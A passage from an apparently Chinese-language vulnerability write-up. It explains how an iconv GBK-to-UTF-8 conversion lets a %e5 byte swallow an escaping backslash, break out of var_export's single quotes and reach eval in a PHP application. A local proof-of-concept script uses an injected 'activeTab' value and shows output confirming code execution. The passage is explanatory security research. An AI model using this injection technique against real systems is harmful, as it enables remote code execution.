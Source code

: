 ```
            }
        }
    }

```

若想达成代码执行，则需要触发之中的eval，很幸运在默认的配置下是可以走到eval的，这里用了iconv函数将GBK转为UTF8，问题也就出在这里。錦的utf-8编码是0xe98ca6，它的gbk编码是0xe55c。传入的%e5与用来转义的单引号的\，正好组成了这个汉字，从而导致我们的单引号逃逸出来，最终到达eval的任意代码执行。这也由于var_export是用单引号包裹字符串的。下面是本地的一个测试：

```
&lt;?php
$value=array("page_total"=&gt;null,"total_nums"=&gt;null,"curnum"=&gt;1,
"pagelimit"=&gt;10,"open_mode"=&gt;"0","activeTab"=&gt;urldecode("%e5\%27.var_dump(11111));?&gt;"),
"show_title"=&gt;null,"show_dots"=&gt;null,"speed"=&gt;null,"data"=&gt;[],"showPages"=&gt;0,"data_sources"=&gt;"serv_data");
$b=var_export($value, true);
var_dump($b);
$s_conv=iconv("GBK", "UTF-8",  $b.";");
if ($s_conv) {
    var_dump($s_conv);
    eval("return " . $s_conv);
}


```

结果如下：

```
string(310) "array (
  'page_total' =&gt; NULL,
  'total_nums' =&gt; NULL,
  'curnum' =&gt; 1,
  'pagelimit' =&gt; 10,
  'open_mode' =&gt; '0',
  'activeTab' =&gt; '\\\'.var_dump(11111));?&gt;',
  'show_title' =&gt; NULL,
  'show_dots' =&gt; NULL,
  'speed' =&gt; NULL,
  'data' =&gt;
  array (
  ),
  'showPages' =&gt; 0,
  'data_sources' =&gt; 'serv_data',
)"
string(312) "array (
  'page_total' =&gt; NULL,
  'total_nums' =&gt; NULL,
  'curnum' =&gt; 1,
  'pagelimit' =&gt; 10,
  'open_mode' =&gt; '0',
  'activeTab' =&gt; '錦\\'.var_dump(11111));?&gt;',
  'show_title' =&gt; NULL,
  'show_dots' =&gt; NULL,
  'speed' =&gt; NULL,
  'data' =&gt;
  array (
  ),
  'showPages' =&gt; 0,
  'data_sources' =&gt; 'serv_data',
);"
int(11111)

```
